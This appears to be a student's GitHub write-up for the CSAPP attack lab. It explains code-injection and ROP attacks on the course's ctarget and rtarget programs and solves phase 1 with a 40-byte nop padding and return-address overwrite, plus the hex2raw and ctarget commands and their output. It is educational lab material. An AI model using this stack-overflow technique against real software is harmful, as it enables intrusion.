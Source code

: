 # CSAPP-attacklab
This is a note for the solution of attacklab, our task is to use code-injection attack and ROP(Returen-Oriented-Programming) attack to attack two programs separately. This is a quiet throny problem when I'm  first exposed to this problem. Only if you read write-up carefully, you will know better. The [recitation video](https://scs.hosted.panopto.com/Panopto/Pages/Viewer.aspx?id=60c65748-2026-463f-8c57-134fd6661cdf) for the attack lab is also helpful. 

There are 5 problems to solve in total, 3 for the code-injection attack aiming at **ctarget** and another 2 for the ROP attack aiming at **rtarget**. The injection is through a function named **getbuf** in the two programs, which call another function **Gets** to read input bytes from standard input. The principle is that our input will be stored in stack and we can location and flush the caller's return address, then make the program return to where our injection code is and execute our code. The only difference between **ctarget** and **rtarget** is that rtarget has more protection mechanism so we cannot execute our injection code directly. Remember that every time before you inject your code, you have to transfer it to raw bytes using **hex2raw**, as the write-up said. Next I will give advise on ctarget and rtarget respectively.

## ctarget

We have to solve the first 3 problems in this part. Ctarget is a program without any security mechanism, such as stack randomization, stack destruction detection and executable code area limitation. We can just inject our code onto the stack and execute it. In the three injections, we should let the program jumps to function **touch1**, **touch2**, **touch3** respectively. 

### phase1 

The first injection is just a warm-up cause we just need to fush the return address and let **getbuf** return to touch1 rather the caller function. Here is the c code of touch1.

```c++
void touch1()
 {
 vlevel = 1; /* Part of validation protocol */
 printf("Touch1!: You called touch1()\n");
 validate(1);
 exit(0);
 }
```
Let's look at the solution. (exploit1/exploit1.txt)
```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
c0 17 40 00 00 00 00 00 
```

The first 5 lines (40 bytes) are a series of instruction **nop** 's byte code representation. Because **getbuf** has 0x28 bytes space, we have to overlap this space to reach the return address. The we cover the return address with the address of touch1 (**0x4017c0**).
Then we use **hex2raw** to transfer the code.
```
./hex2raw < exploit1/exploit1.txt > exploit1/exploit1-raw.txt
```
And inject it.
```
./ctarget -q < exploit1/exploit1-raw.txt 
```
the *-q* option is to prevent the result from being submited to server. Here we get the successful result.
```
➜  attacklab-handout git:(master) ✗ ./ctarget -q < exploit1/exploit1-raw.txt 
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
```